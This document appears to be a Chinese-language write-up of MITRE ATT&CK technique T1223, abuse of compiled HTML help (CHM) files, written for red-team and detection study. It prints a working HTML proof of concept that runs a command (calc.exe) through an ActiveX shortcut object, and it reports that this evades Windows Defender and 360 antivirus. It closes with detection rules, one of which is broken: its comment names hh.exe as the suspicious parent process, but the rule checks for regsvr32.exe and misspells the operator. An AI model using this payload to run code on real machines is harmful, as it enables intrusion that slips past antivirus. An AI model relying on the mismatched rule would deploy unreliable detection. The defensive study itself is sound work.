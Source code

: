 # T1223-Compiled HTML File

CHM文件是各种内容的压缩编译，例如HTML文档，图像和脚本/ Web相关的编程语言，如VBA，JScript，Java和ActiveX。内容使用HTML Help executable program（hh.exe）加载的Internet Explorer浏览器基础组件显示。

攻击者可能滥用此技术来隐藏恶意代码。把嵌入payload的自定义CHM文件可以传送给受害者，然后由[用户执行](https://attack.mitre.org/techniques/T1204)触发。CHM执行还可以绕过旧版和/或未修补系统上的应用程序白名单，这些系统没有监控通过hh.exe执行二进制文件。

## 命令执行

### 技术复现

新建一个HTML文件并填入一下内容，使用Easy CHM工具编译成CHM文件

![1568897478436](T1223-Compiled HTML File.assets/1568897478436.png)

```
<!DOCTYPE html><html><head><title>CHM CODE EXEC</title></head><body>
command exec
<OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
<PARAM name="Command"value="ShortCut">
<PARAM name="Button"value="Bitmap::shortcut">
<PARAM name="Item1"value=',calc.exe'>
<PARAM name="Item2"value="273,1,1">
</OBJECT>
<SCRIPT>
x.Click();
</SCRIPT>
</body></html>
```

### 结果验证

绕过windows defender执行命令

![1568897910461](T1223-Compiled HTML File.assets/1568897910461.png)

360静态查杀结果

![1568898579543](T1223-Compiled HTML File.assets/1568898579543.png)

360动态防御被绕过

![1568898662359](T1223-Compiled HTML File.assets/1568898662359.png)



## 尝试使用CHM执行远控

尝试通过cmd调用powershell、通过regsvr32执行远程代码、通过hh释放本地文件加载均被拦截

### 结果验证

![1568906495368](T1223-Compiled HTML File.assets/1568906495368.png)





## 威胁取证

虽然防护软件会拦截一些命令的执行，但是在执行calc的时候并没有进行拦截操作，猜测是使用白名单限制，此种方法存在被白名单绕过的风险，在不变更攻击原理的情况下不影响以下规则的检测效果

**进程特征：**（级别：高）

```
# hh.exe作为父进程去创建其他进程，是一种可疑行为
ParentImage contians 'regsvr32.exe'
```

![1568900160049](T1223-Compiled HTML File.assets/1568900160049.png)

**加载项特征：**（级别：高）

```
# 在执行payload创建COM对象时会使用Jscript脚本，这样系统就会调用脚本程序
eventid = 7 AND ImageLoaded contains 'jscript'
```

![1568900621786](T1223-Compiled HTML File.assets/1568900621786.png)